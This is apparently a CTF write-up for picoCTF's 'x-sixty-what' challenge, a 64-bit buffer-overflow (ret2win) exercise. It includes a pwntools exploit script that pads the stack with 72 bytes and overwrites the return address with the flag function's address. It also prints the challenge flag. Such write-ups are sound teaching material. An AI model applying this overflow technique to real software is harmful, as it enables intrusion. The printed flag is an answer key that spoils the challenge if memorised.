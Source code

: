 # x-sixty-what
## Overview
Points: 200  
Category: Binary Exploitation

## Description
Overflow x64 code
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this [program](./vuln). [Download source](./vuln.c).
## Hints

1. Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes.
2. Jump to the second instruction (the one after the first `push`) in the flag function, if you're getting mysterious segmentation faults. 

## Solution

We first do the usual checksec on the binary to check the security, the result is `Partial RELRO` and `NX Enabled`. After a quick review on the source code, I can determine that this is just a ret2win in a 64-bits binary.

Now What's the difference between this and `buffer overflow 1` you might ask, well the real difference lies in the stack and how you find the offset. Unlike 32-bits when you find the offset on 64-bits, for example in this case 72 bytes, it hasn't overwrite the `Instruction Pointer`.

So in this binary we just need to simply fill the stack and then put the address we want to go to in a p64() format.

The payload would look like this for now:
```python
from pwn import *

binary = './vuln'
elf = context.binary = ELF(binary)

p = process(binary)

payload = b'a'*72
payload+= p64(0x000000000040123a)

p.sendline(payload)

p.interactive()
```

Wait a second...

<p align=center>
    <img src="./xsw_failed.png" width=60%>
</p>

What? we can't jump to the flag using its address???

```as
0x000000000040123a <+4>:	push   rbp
0x000000000040123b <+5>:	mov    rbp,rsp

```

I think this binary was a bit broken, but the 2nd hint told us to use the second instruction instead of using the normal `push rbp` which usually call the function. In this we can change the payload using the 2nd instruction after push.

```python
payload = b'a'*72
payload+= p64(0x000000000040123b)
```

It works locally so we just need to connect it with the nc to the server and we got the flag.

## Flag

```picoCTF{b1663r_15_b3773r_8225d60a}```                                             
